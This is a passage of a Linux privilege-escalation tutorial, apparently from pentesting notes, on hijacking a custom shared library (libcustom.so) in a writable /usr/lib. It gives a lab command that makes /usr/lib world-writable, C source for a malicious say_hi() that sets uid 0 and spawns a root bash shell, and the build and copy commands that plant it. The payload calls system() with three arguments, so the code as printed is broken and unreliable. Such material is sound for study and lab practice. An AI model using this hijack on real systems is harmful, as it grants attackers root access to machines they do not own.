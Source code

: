 * The program **runs correctly**.
* The program uses a shared library called "**libcustom.so**" from the **/usr/lib/** directory, which is **suspicious as this name is not common**, so it is most likely custom.
* Checking the **function names**, there is a **very custom** one called `say_hi()`. This is very important because if there is a misconfiguration, we need to **create our own shared library that has the same function name as the original**.

## Privilege Escalation

### #1. Write permissions in /lib, /usr/lib or custom directory <a href="#method-1-write-permissions-in-lib---usrlib" id="method-1-write-permissions-in-lib---usrlib"></a>

Although this seems rather unlikely (more common in CTF), it could happen that a user has write permissions on the folder where the custom shared library is located. In that case, the attacker could easily create a malicious shared library and place it in its respective directory. Therefore, executing the binary will execute your malicious code.

#### Requirements

* **Write permissions** on the custom shared library directory.

```bash
sudo chmod o+w /usr/lib/ # Lab Setup
ls -l /usr # Detection
drwxr-xrwx 41 root root  12288 Feb  2 07:13 lib
```

* The name of the custom shared library (with `ldd` or `strace`) and the name of the calling function (with `ltrace`).

#### Privilege escalation

Malicious payload that will give us a shell as root:

{% code title="libcustom.c" %}
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){ // Check the function name with ltrace.
    setuid(0);
    setgid(0);
    system("/bin/bash",NULL,NULL);
}
```
{% endcode %}

We compile it to generate the malicious shared library and then copy it to the directory where the original is located:

```bash
gcc -shared -o libcustom.so -fPIC libcustom.c
cp libcustom.so /usr/lib/
# Execute binary.
```
